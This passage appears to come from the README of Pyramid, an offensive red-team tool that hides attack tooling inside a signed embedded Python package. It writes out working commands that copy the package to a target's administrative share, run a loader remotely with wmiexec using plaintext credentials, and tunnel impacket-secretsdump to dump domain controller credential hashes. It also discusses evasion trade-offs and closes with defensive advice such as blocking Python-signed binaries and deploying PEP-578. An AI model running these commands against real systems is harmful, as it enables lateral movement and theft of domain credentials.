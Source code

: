 `smbclient //192.168.1.11/C$ -U domain/user -c 'prompt OFF; recurse ON; lcd /home/user/Downloads/python-3.10.4-embed-amd64; cd Users\Public; mkdir python-3.10.4-embed-amd64; cd python-3.10.4-embed-amd64; mput *'`

Execute pythonw.exe to launch the cradle:

`/usr/share/doc/python3-impacket/examples/wmiexec.py domain/user:"Password1\!"@192.168.1.11 'C:\Users\Public\python-3.10.4-embed-amd64\pythonw.exe C:\Users\Public\python-3.10.4-embed-amd64\cradle.py'`

Socks5 server is running on target and SSH tunnel should be up, so modify proxychains.conf and tunnel traffic through target:

`proxychains impacket-secretsdump domain/user:"Password1\!"@192.168.1.50 -just-dc`



#### Limitations

Dynamically loading Python modules does not natively support importing *.pyd files that are essentially dlls. The only public solution to my knowledge that solves this problem is provided by Scythe *(in-memory-execution) by re-engineering the CPython interpreter. In ordrer not to lose the digital signature, one solution that would allow using the native Python embeddable package involves dropping on disk the required pyd files or wheels. This should not have significant OPSEC implications in most cases, however bear in mind that the following wheels containing pyd files are dropped on disk to allow Dinamic loading to complete:
 *. Cryptodome - needed by Bloodhound-Python, Impacket, DonPAPI and LaZagne
 *. bcrypt, cryptography, nacl, cffi - needed by paramiko

 - please note that running BOFs does not need dropping any pyd on disk since this techniques only involves shellcode injection.

### How to defend from this technique

Python.exe is a signed binary with good reputation and does not provide visibility on Python dynamic code. Pyramid exploits these evasion properties carrying out offensive tasks from within the same python.exe process.

For this reason, one of the most efficient solution would be to block by default binaries and dlls signed by Python Foundation, creating exceptions only for users that actually need to use python binaries.

Alerts on downloads of embeddable packages can also be raised.

Deploying PEP-578 is also feasible although complex, [this is a sample implementation](https://github.com/zooba/spython). However, deploying PEP-578 without blocking the usage of stock python binaries could make this countermeasure useless.
